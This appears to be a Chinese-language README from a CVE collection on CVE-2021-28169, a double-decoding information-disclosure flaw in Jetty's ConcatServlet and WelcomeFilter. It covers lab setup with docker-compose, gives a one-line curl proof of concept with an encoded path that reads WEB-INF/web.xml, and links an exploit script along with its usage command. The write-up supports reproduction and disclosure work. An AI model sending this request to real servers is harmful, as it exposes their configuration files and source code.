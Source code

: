 # CVE-2021-28169 Jetty 通用 Servlets 组件 ConcatServlet 信息泄露漏洞

## 漏洞概述
Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境，而Jetty Servlets是Jetty提供给开发者的一些通用组件。

在9.4.40, 10.0.2, 11.0.2版本前，Jetty Servlets中的ConcatServlet、WelcomeFilter类存在多重解码问题，如果开发者主动使用了这两个类，攻击者可以利用其访问WEB-INF目录下的敏感文件，造成配置文件及代码泄露。

## 漏洞影响
Jetty versions <= 9.4.40  
Jetty versions <= 10.0.2  
Jetty versions <= 11.0.2  

## 环境搭建
漏洞环境
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-28169/Env

运行漏洞环境
```
docker-compose up -d
```

访问`http://127.0.0.1:8080`，环境成功运行

![1628675289082.png](./img/1628675289082.png)

## 漏洞复现
### POC
```
curl -v 'http://your-ip:8080/static?/%2557EB-INF/web.xml'
```

### EXP
漏洞脚本
> https://github.com/errorecho/CVEs-Collection/tree/main/CVE-2021-28169/Exp/CVE-2021-28169.py

使用方式
```
python3 exp.py http://ip:port
```

![1628675353313.png](./img/1628675353313.png)

## 参考
> https://github.com/vulhub/vulhub/tree/master/jetty/CVE-2021-28169